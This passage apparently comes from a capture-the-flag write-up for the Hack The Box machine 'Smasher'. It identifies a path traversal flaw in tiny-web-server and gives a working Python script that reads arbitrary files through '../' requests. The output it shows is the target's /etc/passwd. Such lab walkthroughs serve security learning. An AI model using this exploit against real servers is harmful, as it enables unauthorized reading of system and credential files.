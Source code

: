 ```
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Server: shenfeng tiny-web-server
|     Content-Type: text/html
|     <html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table>
|     <tr><td><a href="index.html">index.html</a></td><td>2018-03-31 00:57</td><td>2.1K</td></tr>
|_    </table></body></html>
```

### Web service

Based on the banner, we know the website is running using the [tiny-web-server](https://github.com/shenfeng/tiny-web-server) server application.

There's already an [issue](https://github.com/shenfeng/tiny-web-server/issues/2) documented for this application about a path traversal vulnerability.

We can walk the file system by doing a `GET ../../../../<file>`, and it also works for directories so we can get a directory listing.

I wrote a small python script to fix the output and sort the results to make it easier to work with:

```python
#!/usr/bin/python

from pwn import *
import sys
import requests

context.log_level = 'info'

ls = []

r = requests.get('http://10.10.10.89:1111/../../../../../%s' % (sys.argv[1]))
if '<tr>' in r.text:
    for line in r.text.splitlines():
        if '<tr>' in line:
            # print(line.split('"')[1])
            ls.append(line.split('"')[1])
    for i in (sorted(ls)):
        print(i)
else:
    print r.text
```

We find the list of users in `/etc/passwd`

```
root@kali:~/hackthebox/Machines/Smasher# python scanner.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```